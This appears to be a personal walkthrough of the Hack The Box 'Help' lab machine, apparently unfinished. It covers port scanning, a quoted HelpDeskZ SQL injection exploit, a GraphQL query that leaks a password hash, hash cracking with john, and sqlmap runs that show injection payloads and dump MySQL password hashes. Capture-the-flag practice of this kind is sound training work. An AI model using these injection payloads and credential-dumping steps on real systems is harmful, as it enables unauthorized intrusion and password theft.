

# [13 - Help](https://app.hackthebox.com/machines/Help)



## description
> 10.10.10.121

## walkthrough

### recon

```
$ nmap -sV -sC -A -Pn -p- help.htb
Starting Nmap 7.80 ( https://nmap.org ) at 2022-08-08 18:33 MDT
Nmap scan report for help.htb (10.10.10.121)
Host is up (0.060s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e5:bb:4d:9c:de:af:6b:bf:ba:8c:22:7a:d8:d7:43:28 (RSA)
|   256 d5:b0:10:50:74:86:a3:9f:c5:53:6f:3b:4a:24:61:19 (ECDSA)
|_  256 e2:1b:88:d3:76:21:d4:1e:38:15:4a:81:11:b7:99:07 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (application/json; charset=utf-8).
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

### 80

while waiting for nmap, apache2 ubuntu default page


gobuster here - but then on to 3000

```
/.hta/                (Status: 403) [Size: 288]
/.htaccess/           (Status: 403) [Size: 293]
/.htpasswd/           (Status: 403) [Size: 293]
/icons/               (Status: 403) [Size: 289]
/javascript/          (Status: 403) [Size: 294]
/server-status/       (Status: 403) [Size: 297]
/support/             (Status: 200) [Size: 4413]
```

usual suspects, plus `/support`, which seems relevant

> HelpDeskZ

submit a ticket, news, knowledgebase, and `lost password`, but no way to signup for an account

can post a ticket, but they are using captchas, which means we likely can't sqlmap it


### 3000

whenever see `Express`, assume SSTI

```
$ curl http://help.htb:3000
{"message":"Hi Shiv, To get access please find the credentials with given query"}
```

ok, so maybe a username, and likely a path forward

### HelpDeskZ exploit

[https://www.exploit-db.com/exploits/41200](https://www.exploit-db.com/exploits/41200)
> HelpDeskZ <= v1.0.2 suffers from an sql injection vulnerability that allow to retrieve administrator access data, and download unauthorized attachments.
> Software after ticket submit allow to download attachment by entering following link: http://127.0.0.1/helpdeskz/?/?v=view_tickets&action=ticket&param[]=2(VALID_TICKET_ID_HERE)&param[]=attachment&param[]=1&param[]=1(ATTACHMENT_ID_HERE)

```
FILE: view_tickets_controller.php
LINE 95:	$attachment = $db->fetchRow("SELECT *, COUNT(id) AS total FROM ".TABLE_PREFIX."attachments WHERE id=".$db->real_escape_string($params[2])." AND ticket_id=".$params[0]." AND msg_id=".$params[3]);
```

> third argument AND msg_id=".$params[3]; sent to fetchRow query with out any senitization. Steps to reproduce:

> http://127.0.0.1/helpdeskz/?/?v=view_tickets&action=ticket&param[]=2(VALID_TICKET_ID_HERE)&param[]=attachment&param[]=1&param[]=1 or id>0 -- -

that seems pretty straight forward.. but we don't have a valid ticket ID or an attachment ID


```
location: http://help.htb/support/?v=submit_ticket&action=confirmationMsg&param[]=380-9AA-6BF09&param[]=16170425ef00
```

or maybe we do?

```
location: http://help.htb/support/?v=submit_ticket&action=confirmationMsg&param[]=DA0-BB1-FC7AD&param[]=ffbb16090f90
```

neither the 3-3-5 nor the 11 character strings appear to be the ticket IDs.

### coming back

think the exploit path we're on will work, but `rs.php` uploads lead to `File is not allowed`

  * tried the file as `rs.png` and it uploaded successfully, but wasn't found
  * tried the file as `rs.php` but with `Content-Type: image/png`, still file not allowed


going back to 3000 - `find the credentials with given query`.. thats graphql, right?

```
GET /graphql HTTP/1.1

...

HTTP/1.1 400 Bad Request
X-Powered-By: Express
Date: Thu, 11 Aug 2022 22:23:32 GMT
Connection: close
Content-Length: 18

GET query missing.
```

trying to get `http://help.htb:3000/graphql?help.htb:3000/graphql?query={__schema{types{name,fields{name}}}}` yields `Must provide query string`, so should write some code..

but actually, the param was bad - `http://help.htb:3000/graphql?query={__schema{types{name,fields{name}}}}` yields.. what we're looking for

curl does not like the nesting, so wget

```
{
  "data": {
    "__schema": {
      "types": [
        {
          "name": "Query",
          "fields": [
            {
              "name": "user"
            }
          ]
        },
        {
          "name": "User",
          "fields": [
            {
              "name": "username"
            },
            {
              "name": "password"
            }
          ]
        },

```

nice. now we just need to query for the values

username is likely `shiv`, so just need the password

```
$ wget "http://help.htb:3000/graphql?query={user {username,password} }"
--2022-08-11 16:31:38--  http://help.htb:3000/graphql?query=%7Buser%20%7Busername,password%7D%20%7D
Resolving help.htb (help.htb)... 10.10.10.121
Connecting to help.htb (help.htb)|10.10.10.121|:3000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 96 [application/json]
Saving to: ‘graphql?query={user {username,password} }’

graphql?query={user {username,password} }       100%[=====================================================================================================>]      96  --.-KB/s    in 0s

2022-08-11 16:31:38 (12.7 MB/s) - ‘graphql?query={user {username,password} }’ saved [96/96]

$ cat graphql\?query\=\{user\ \{username\,password\}\ \}  | jq .
{
  "data": {
    "user": {
      "username": "helpme@helpme.com",
      "password": "5d3c93182bb20f07b994a7f617e99cff"
    }
  }
}
```

nice. that looks like an md5 hash

```
$ john_rockyou users.hash --format='dynamic=md5($p)'
Using default input encoding: UTF-8
Loaded 1 password hash (dynamic=md5($p) [256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=16
Press 'q' or Ctrl-C to abort, almost any other key for status
godhelpmeplz     (?)
1g 0:00:00:00 DONE (2022-08-11 16:33) 2.631g/s 20628Kp/s 20628Kc/s 20628KC/s godsgift2689..god777!!!
Use the "--show --format=dynamic=md5($p)" options to display all of the cracked passwords reliably
Session completed.

real    0m0.541s
user    0m0.360s
sys     0m0.142s
```

nice - but.. that does not work for `helpme` or `shiv` on ssh -- but it does get us in to the helpdeskz 

and.. we can now use sqlmap to trigger the authenticated exploit that was not working unauthenticated..

```
$ sqlmap -r view_tickets2.txt --level 5
[16:54:38] [INFO] checking if the injection point on GET parameter 'param[]' is a false positive
GET parameter 'param[]' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 510 HTTP(s) requests:
---
Parameter: param[] (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: v=view_tickets&action=ticket&param[]=7&param[]=attachment&param[]=3&param[]=9 AND 8529=8529

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: v=view_tickets&action=ticket&param[]=7&param[]=attachment&param[]=3&param[]=9 AND (SELECT 6831 FROM (SELECT(SLEEP(5)))cTlH)
---
[16:54:44] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.04 or 16.10 (xenial or yakkety)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.0.12
[16:54:44] [INFO] fetched data logged to text files under '/home/conor/.local/share/sqlmap/output/help.htb'
```

nice...

```
$ sqlmap -r view_tickets2.txt --level 5 --risk 3 -p param[] --passwords
...
database management system users password hashes:
[*] debian-sys-maint [1]:
    password hash: *5235DAA85DEEFA147A945B565DA3DE370CE8E5C9
[*] mysql.session [1]:
    password hash: *THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
[*] mysql.sys [1]:
    password hash: *THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
[*] root [1]:
    password hash: *AEC9BA84F3CBB00DE426B0E939C665E2D7391CC1

```

root hash falls 
```
helpme           (?)     
```

but what user does that belong to?


## flag
```
user:
root:
```
